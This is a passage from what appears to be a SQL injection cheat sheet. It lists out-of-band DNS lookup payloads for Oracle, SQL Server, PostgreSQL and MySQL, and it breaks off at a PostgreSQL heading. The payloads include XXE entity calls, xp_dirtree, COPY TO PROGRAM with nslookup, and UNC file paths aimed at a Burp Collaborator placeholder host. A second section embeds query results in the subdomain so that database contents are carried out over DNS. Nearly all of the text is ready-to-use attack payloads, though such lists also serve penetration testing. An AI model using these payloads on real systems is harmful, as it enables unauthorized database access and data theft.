 <span id="anchor-135"></span>SQL DNS Lookup

<span id="anchor-136"></span>Oracle

<table>
<tbody>
<tr class="odd">
<td><p>SELECT extractvalue(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"&gt; %remote;]&gt;'),'/l') FROM dual</p>
<p>Or</p>
<p>SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')</p></td>
</tr>
</tbody>
</table>

<span id="anchor-137"></span>Microsoft

|                                                                         |
| ----------------------------------------------------------------------- |
| exec master..xp\_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a' |

<span id="anchor-138"></span>PostgreSQL

|                                                                                 |
| ------------------------------------------------------------------------------- |
| copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net' |

<span id="anchor-139"></span>MySQL (Windows only)

<table>
<tbody>
<tr class="odd">
<td><p>LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')</p>
<p>SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'</p></td>
</tr>
</tbody>
</table>

<span id="anchor-140"></span>SQL DNS Lookup w/Data Exfiltration

<span id="anchor-141"></span>Oracle

|                                                                                                                                                                                                                                        |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SELECT extractvalue(xmltype('\<?xml version="1.0" encoding="UTF-8"?\>\<\!DOCTYPE root \[ \<\!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"\> %remote;\]\>'),'/l') FROM dual |

<span id="anchor-142"></span>Microsoft

|                                                                                                                                            |
| ------------------------------------------------------------------------------------------------------------------------------------------ |
| declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp\_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"') |

<span id="anchor-143"></span>PostgreSQL

